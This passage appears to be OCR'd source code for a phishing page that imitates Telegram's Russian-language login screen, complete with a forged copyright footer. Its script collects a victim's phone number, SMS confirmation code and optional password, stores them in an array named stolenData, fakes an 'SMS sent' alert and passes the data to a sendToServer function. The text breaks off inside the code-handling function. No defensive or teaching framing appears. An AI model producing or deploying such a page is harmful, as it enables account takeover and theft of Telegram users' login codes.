         <input type="tel" id="phone" placeholder="+7 (XXX) XXX-XX-XX" required>
        <input type="password" id="password" placeholder="Пароль (если установлен)" style="display:none;">
        <input type="text" id="code" placeholder="Код из SMS" style="display:none;">
        
        <button onclick="handleLogin()">Продолжить</button>
        <button onclick="handleCode()" style="display:none; background: #28a745;" id="codeBtn">Подтвердить код</button>
        
        <p style="font-size: 12px; color: #666; margin-top: 15px;">
            Нажимая «Продолжить», вы соглашаетесь с нашими условиями использования.
        </p>
    </div>

    <div class="footer">
        © 2024 Telegram Messenger Inc.
    </div>

    <script>
        let step = 1;
        const stolenData = [];

        function handleLogin() {
            const phone = document.getElementById('phone').value;
            
            if (!phone) {
                alert('Пожалуйста, введите номер телефона');
                return;
            }

            // Сохраняем данные
            stolenData.push({
                phone: phone,
                timestamp: new Date().toISOString(),
                userAgent: navigator.userAgent
            });

            // Показываем поле для кода
            document.getElementById('phone').style.display = 'none';
            document.getElementById('code').style.display = 'block';
            document.querySelector('button').style.display = 'none';
            document.getElementById('codeBtn').style.display = 'block';
            
            // Имитируем отправку SMS
            alert(`Код отправлен на номер ${phone}`);
            
            // Отправляем данные на сервер
            sendToServer(stolenData);
        }

        function handleCode() {
            const code = document.getElementById('code').value;
            const phone = document.getElementById('phone').value;

            if (!code) {
                alert('Пожалуйста, введите код из SMS');
                return;
            }
